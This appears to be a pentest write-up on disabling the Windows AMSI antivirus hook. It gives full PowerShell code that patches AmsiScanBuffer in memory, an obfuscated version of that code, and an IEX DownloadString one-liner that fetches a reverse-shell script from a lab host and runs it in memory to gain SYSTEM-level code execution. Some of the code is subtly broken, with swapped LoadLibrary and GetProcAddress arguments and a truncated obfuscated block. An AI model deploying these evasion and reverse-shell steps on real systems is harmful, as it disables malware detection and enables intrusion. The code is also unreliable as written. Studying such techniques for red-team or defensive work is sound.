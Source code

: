 ## Table of Contents

- [**Outline**](#section-0)
- [**Antimalware Scan Interface Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Memory Patching & Obfuscation**](#section-3)
- [ **Credits & Reference**](#section-4)


## Outline  {#section-0}

The goal of this write-up is to evade the most up to date AMSI protection measure implemented in Windows 10 Pro (2023/07/28) using AMSI memory patching technique. The objective was to gain a Remote Code Execution (RCE) as NT/Authority System.

![](/assets/AV/diagram.png)  

AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime.

By default, windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution. When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space.  `AmsiScanBuffer()`and `AmsiScanString()` are used by the antivirus before execution to scan the buffer and strings for suspicious activities. This ultimately prevents arbitrary execution of code.
# AMSI Evasion {#section-1}
The following evasive techniques aim to avoid detection by antivirus and security software.  

##### Code Fragmentation: 
Code fragmentation involves breaking down malicious code into smaller, seemingly harmless components. This is then assembled at runtime to evade static analysis.
This approach challenges antivirus scanners that rely on signature-based detection.

##### Obfuscation: 
Obfuscation techniques are utilized to deliberately obscure the actual intent and functionality of a script. By employing various obfuscation methods, such as code encryption, renaming variables, adding meaningless code snippet to obscure intent of the script, attackers can make their code appear convoluted. This makes AMSI scanners challenging  to interpret the true purpose of the script.

#####  Memory Patching: 
Memory patching modifies the AMSI Dynamic Link Library (DLL) in memory during runtime. This technique allows threat actors to temporarily disable or alter the functionality of AMSI. Subsequently attackers can run malicious scripts in memory without hindrance and alerts.
#### PowerShell Downgrade: 
PowerShell downgrading is switching the current PowerShell to Windows PowerShell verison 2.0. This version does not have AMSI protection, which makes it susceptible to arbitrary code execution. By using an older version of PowerShell, attackers can bypass the built-in security measures present in newer versions and execute malicious scripts undetected.
## Proof of Concept {#section-2}

![](/assets/AV/Final.gif)  



To verify that AMSI is correctly functioning, the tester first tried to initiate a reverse TCP connection through PowerShell using the below command in memory.
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
However, as seen above, AMSI successfully flags the activity as  `malicious` and proceeds to block the reverse shell connection. 
## Memory Patching  {#section-3}
In order to bypass AMSI, the tester utilized the following payload which was referenced from [Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass)
```bash
$thing = @"

using System;
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$to = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$connect = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($to)
$dest = [payload]::GetProcAddress($librarz, $connect)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```


By applying a patch to the `AmsiScanBuffer` function in `AMSI.dll`, using specific assembly code (mov eax, 0x80070057 and ret), the function promptly returns an error code. This effectively avoides AMSI from scanning the PowerShell code. This method allows the attacker's  to execute PowerShell code in memory without triggering AMSI's detection.

However, it is essential to acknowledge that the above memory patching payload might be flagged by ASMI before it could patch the `ASMIScanBuffer.dll` itself. Thus it is necessary to implement proper obfuscation methodologies before delivering the payload. To conceal the payload's content and intention, the tester opted to utilize Chameleon PowerShell Obfuscator. Chameleon is a specialized tool designed to obfuscate PowerShell scripts and circumvent AMSI and commercial antivirus solutions. It employs a range of obfuscation techniques to evade common detection signatures, thereby enhancing its effectiveness in avoiding detection. Examples of obfuscation methods include but are not limited to comment deletion/substitution
string substitution (variables, functions, data-types) ,variable concatenation ,indentation randomization ,semi-random backticks insertion and randomization.

The below code snippet contains a payload that has undergone multiple layers of obfuscation.
```bash
$GFW2Au7XbmPG5GvoODmvtYOpODkUS2KZR095wx8IHiPJu4eatfAA885Px56TcF0MnqghrNzM42Lvz0LE4IzoWJzpj7ML2MZ11evXUFDQD589KWR9QtwKq2Qg0mE6uMREzx7iRIZJOK2qLeZKpRqZslro01qcJC03aScqnLmSiSVJ6AIwZKGZF1aEaYGjS13PQyKmRdpmc2yMyISCN1yYuQCBZkF5i2LKBOpm7FcEshpWYz6QTzs9m5WNt6PONU73eoXpVQZKAbDUydPdN2ZdTeNdkOjDZHErYeh5b0Tqq9N = @"
// thing 
// using syStEm.CoLLeCtiONS.ArrAyLiST;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
      [DllImport("kernel32")]
      public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        [DllImport("kernel32")]
       public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $GFW2Au7XbmPG5GvoODmvtYOpODkUS2KZR095wx8IHiPJu4eatfAA885Px56TcF0MnqghrNzM42Lvz0LE4IzoWJzpj7ML2MZ11

```


After implementing effective obfuscation techniques, the payload is dropped in the PowerShell command prompt. The `ASMIScanBuffer.dll` returns an `Invalid Argument` and ends the AMSI program without being able to scan any code. With AMSI neutralized, the tester proceeded by hosting a Python web server on port 8443 to serve a reverse PowerShell scrip.
```bash
python3 -m http.server 8443
```

Taking advantage of the payload, the tester successfully initiated a reverse TCP connection via PowerShell, executing the script in memory:
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
Consequently, the tester established Remote Code Execution (RCE) with NT/Authority System privileges.
![](/assets/AV/system.png)  

## Credits & Reference  {#section-4}
[Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass) & [Pentest Laboratories](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
